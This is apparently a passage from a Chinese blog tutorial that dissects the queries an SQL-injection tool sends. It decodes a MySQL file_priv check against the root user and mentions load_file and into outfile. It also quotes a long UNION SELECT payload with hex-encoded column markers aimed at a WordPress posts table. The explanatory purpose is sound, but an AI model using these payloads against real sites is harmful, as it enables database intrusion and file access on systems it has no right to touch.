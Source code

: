 这玩意到底是什么神秘的东西呢？我们不妨在 Navicat 和 FireFox 里面瞅瞅：

￼![enter image description here](img/img32_u5_png.jpg)

FireFox 执行的结果：

![enter image description here](img/img33_u10_png.jpg)

让我们来还原上面的那句废话：

```
select file_priv from mysql.user where user=root 
```

￼![enter image description here](img/img34_png.jpg)

上面很长很臭的 SQL 翻译过来就这么短的一句查询的结果就一个得到的信息就是：

有没有 file_priv 权限。而 file_priv 应该就是文件读写权限了（没看手册，应该八九不离十）。如果不是 Y 是 N 那就不能 load_file 、into outfile、dumpfile 咯。

接着看下一条 SQL：

```
SELECT * from wps_posts where ID = 739 and 1=0 union select concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d)-- 
```